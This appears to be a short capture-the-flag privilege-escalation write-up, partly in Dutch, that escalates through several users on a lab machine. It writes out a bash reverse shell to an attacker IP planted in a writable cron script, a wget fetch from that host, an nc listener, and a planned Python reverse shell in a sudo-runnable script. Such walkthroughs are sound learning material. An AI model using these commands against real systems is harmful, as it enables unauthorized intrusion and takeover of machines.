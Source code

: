## Priv Esc

### Steps to reproduce

#### 1. User Toby

cant access flag_4.txt, need to be user toby

Note.txt says "cronjobs"

```
cat /etc/crontab
```

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```

```
sudo -u toby /bin/bash
```

#### 2. User Mat

we gonna edit this bitch to reverse shell

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```

```
nano cow.sh

[vervangen met content]
#!/bin/bash
bash -i >& /dev/tcp/10.9.3.63/4445 0>&1
[/vervangen met content]
wget http://10.9.3.63:8088/cow.sh
chmod +x cow.sh
nc -lvnp 4445
```

**After a shit long time we got user matt**

![alt text](image-6.png)

#### 3. User Will

**Python scripts that can be run as sudo willy**

*we kunnen cmd.py aanpassen want we kunnen schrijven in deze klere folder*

- Zetten er een python reverse shell in.
- `/usr/bin/python3 /home/mat/scripts/will_script.py * `


